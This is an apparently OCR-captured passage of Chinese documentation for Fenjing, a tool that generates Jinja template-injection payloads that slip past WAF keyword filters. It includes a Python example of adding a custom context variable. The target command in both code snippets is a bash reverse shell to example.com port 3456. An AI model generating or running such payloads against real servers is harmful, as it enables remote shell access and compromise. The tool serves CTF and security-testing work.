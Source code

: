```python
        waf, 'bash -c "bash -i >& /dev/tcp/example.com/3456 0>&1"'
    )
    if not will_print:
        print("这个payload不会产生回显！")

    print(f"{shell_payload=}")
```


### 让生成器学会使用新的变量

[参考](https://github.com/Marven11/Fenjing/issues/4)

比如说你想让生成器学会使用新的变量`aaa`，它的值是100，需要在payload的前面加上`{%set aaa=0x64%}`，那你只需要这么写

```python
from fenjing.full_payload_gen import FullPayloadGen
from fenjing.const import OS_POPEN_READ
import logging
logging.basicConfig(level = logging.INFO)

def waf(s: str): # 这个函数因题目而定
    blacklist = [
        "00", "1", "3", "5", "7", "9"
    ]
    return all(word not in s for word in blacklist)

if __name__ == "__main__":
    full_payload_gen = FullPayloadGen(waf)
    full_payload_gen.do_prepare()
    full_payload_gen.add_context_variable("{%set aaa=0x64%}", {"aaa": 100})
    shell_payload, will_print = full_payload_gen.generate(OS_POPEN_READ, "bash -c \"bash -i >& /dev/tcp/example.com/3456 0>&1\"")
    if not will_print:
        print("这个payload不会产生回显")
    print(f"{shell_payload=}")
```
